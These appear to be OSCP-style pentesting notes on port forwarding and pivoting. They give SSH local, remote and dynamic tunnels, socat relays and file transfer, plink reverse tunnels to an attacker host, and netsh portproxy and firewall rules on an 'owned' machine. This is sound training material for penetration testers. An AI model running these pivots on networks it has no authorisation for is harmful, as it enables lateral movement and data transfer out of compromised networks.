 Port forwarding from $TARGET_IP to localhost with SSH
---
```bash
ssh -N -L $LOCAL_PORT:localhost:$PORT $USER@$TARGET_IP
```

```bash
sshpass -p $PASSWORD ssh $USER@$TARGET_IP -L $PORT:127.0.0.1:$PORT
```

or run in background with -f option

```bash
ssh -N -f -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

Forward port from remote machine to local machine:

```bash
sudo service ssh start
```

then on remote machine

```bash
ssh -N -R $REMOTE_PORT:localhost:$PORT kali@$ATTACKER_IP
```

or start dynamic port forwarding (socks5 proxy) on localhost:

```bash
ssh -N -R 9998 kali@$LOCAL_IP
```
Proxy on localhost:9090 using SSH and credentials:
(WARNING: Proxy is very unstable if it cannot resolve a host, e.g. http page includes)
```bash
#socks5, localhost:9090 in FoxyProxy
ssh -D 9090 $USER@$TARGET_IP
```
OSCP - from first server > second server > third server < from second to first
---
expose smb shares on 3rd server
```bash
ssh -N -L 0.0.0.0:4455:$THIRD_SERVER_IP:445 $USER@$SECONDARY_SERVER_IP
```
Forward local port to target IP with SOCAT
---
```bash
socat TCP-LISTEN:139,reuseaddr,fork TCP:$TARGET_IP:$PORT &
```

OSCP socat
---
#socat #pivot #port-forwarding

forward port 22 on internal/unreachable to attacker box to owned box port 2222

```bash
socat -ddd TCP-LISTEN:2222,fork TCP:$INTERNAL_IP:22
```

![](images/socat-network-pivot.png)

```puml
@startuml
!theme crt-green

nwdiag {
    internet [shape=cloud]
    VPN [type=switch];
    internet -- VPN
    group {
      color="#425444"
      webserver;
      database;
    }
    network VPN_network {
      VPN;
      webserver [address = "192.168.x.101"];
      attacker [address = "192.168.x.102" shape = entity];
      address = "192.168.x.x/24"
    }
    network internal {
        address = "10.x.x.x/24"
        webserver [address = "10.x.x.102" shape = database]
        database [address = "10.x.x.101" shape = collections];
        other_server [address = "10.x.x.103" ];
    }

}
@enduml
```

Using plink:

#pivot #port-forwarding 

```powershell
plink.exe -ssh -l kali -pw $KALI_PASSWORD -R 127.0.0.1:$KALI_PORT:127.0.0.1:$LOCAL_PORT $KALI_IP
```

using netsh:
```powershell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=$OWNED_IP connectport=22 connectaddress=$FORWARD_IP
netsh interface portproxy show all
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=$OWNED_IP localport=$LISTEN_PORT action=allow
```
Using SOCAT to send file:
---
On receiving machine

```bash
socat -u TCP-LISTEN:9876,reuseaddr OPEN:$FILE_OUT,creat
```

and on sending machine

```bash
socat -u FILE:$FILE_OUT TCP:$RECEIVER_IP:9876
```